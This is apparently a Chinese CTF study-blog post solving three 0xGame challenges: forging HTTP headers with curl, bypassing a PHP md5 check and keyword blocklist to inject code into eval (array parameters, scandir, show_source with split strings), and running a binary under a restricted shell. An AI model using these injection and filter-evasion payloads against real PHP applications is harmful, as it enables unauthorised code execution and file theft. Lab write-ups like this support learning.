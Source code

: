 ```yaml
---
title: day4
categories:
  - ctf
  - note
---
```


一些题目 + curl 指令的用法

<!--more-->

## CTF+ 题目 [Http的真理，我已解明](https://www.ctfplus.cn/problem-detail/1975492176561311744/description)
### 标签: 0xGame Web

题目要求我们用指定的GET POST COOKIE 传入特定的参数 使用特定的浏览器 使用 表示经过代理或者网关, 以及从指定的网站跳转过来
所以得出curl指令
```bash
curl -A "Safari" -H "Referer: www.mihoyo.com" -H "Via: clash" -d "http=good" -b "Sean=god" http://80-95a23249-8263-444a-93e7-a0d59b688e83.challenge.ctfplus.cn/?hello=web
```
得到flag
0XGame{Congratuation_You_Are_Http_God!!!}


所使用的 curl 参数
```TEXT
-H "Vai: XXX" 指定代理
-H "Referer: XXX" 请求由什么网站跳转到这里

-A            指定访问浏览器
-d            POST 传输
-b            COOKIE 传输
...

```


## CTF+ 题目 [RCE1](https://www.ctfplus.cn/problem-detail/1975492181816774656/description)
### 标签: 0xGame Web
进入靶机发现如下php代码
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$rce1 = $_GET['rce1'];
$rce2 = $_POST['rce2'];
$real_code = $_POST['rce3'];

$pattern = '/(?:\d|[\$%&#@*]|system|cat|flag|ls|echo|nl|rev|more|grep|cd|cp|vi|passthru|shell|vim|sort|strings)/i';

function check(string $text): bool {
    global $pattern;
    return (bool) preg_match($pattern, $text);
}


if (isset($rce1) && isset($rce2)){
    if(md5($rce1) === md5($rce2) && $rce1 !== $rce2){
        if(!check($real_code)){
            eval($real_code);
        } else {
            echo "Don't hack me ~";
        }
    } else {
        echo "md5 do not match correctly";
    }
}
else{
    echo "Please provide both rce1 and rce2";
}
?>

```

发现需要使用GET 传入参数rce1, 使用POST 传入参数 rce2, rce3(real_code)
第一层if语句可以看出 本题目要求 **rce1**, **rce2** 的MD5哈希值相同但是字符串不同,而第二层if则要求
输入的**rce3** 中的命令必须不在正则表达式
<br>
 **/(?:\d|[\$%&#@*]|system|cat|flag|ls|echo|nl|rev|more|grep|cd|cp|vi|passthru|shell|vim|sort|strings)/i** 
<br>
 的筛选范围内

故可以 将**rce2** **rce1** 设定为 列表因为 php中的md5 不能处理列表 都会返回null,或者将其设定为 经过md5 转化后为0e开头的字符串，因为php会将这种数据视为科学计数法而绕过

所以我们可以构建出curl命令为:
```bash
curl -d "rce2[]=12123&rce3=print_r(scandir('/'));" http://80-a997745a-c1b5-4f34-aa06-65d2d675f958.challenge.ctfplus.cn/?rce1[]=123
```
发现 flag文件
故接下来的问题是怎么 在正则表达式的限制下 读取到文件

所以构件出如下命令:
```bash
curl -d "rce2[]=1&rce3=show_source('/fl'.'ag');" "http://80-a997745a-c1b5-4f34-aa06-65d2d675f958.challenge.ctfplus.cn/?rce1[]=2"
```
成功得到flag: 0xGame{This_is_Your_First_Stop_to_RCE!!!}


#### 笔记
php 常用的函数
1. file_get_contents()
一次性读取整个文件内容到字符串中。
2. file()
将整个文件读取到数组中，每行作为数组的一个元素。
3. readfile()
直接读取文件并输出到浏览器，适合文件下载。
4. show_source();
5. include

6. scandir() 获取目录
7. print_r() 打印


## CTF+ 题目 [命令执行🤔](https://www.ctfplus.cn/problem-detail/1975492230630084608/description)
### 标签:0xGame PWN
进入题目提供的nc地址时 发现除了echo, ls命令其他所有命令都不能使用
使用ls 发现文件目录中存在flag 文件
继续ls -l 该文件发现该文件是一个可执行文件所以输入
```bash
. ./flag
```
执行文件得到flag：0xGame{y0u_c4n_4ls0_3x3cu73_c0mm4nd_w17h0u7_5h_4nd_c47}
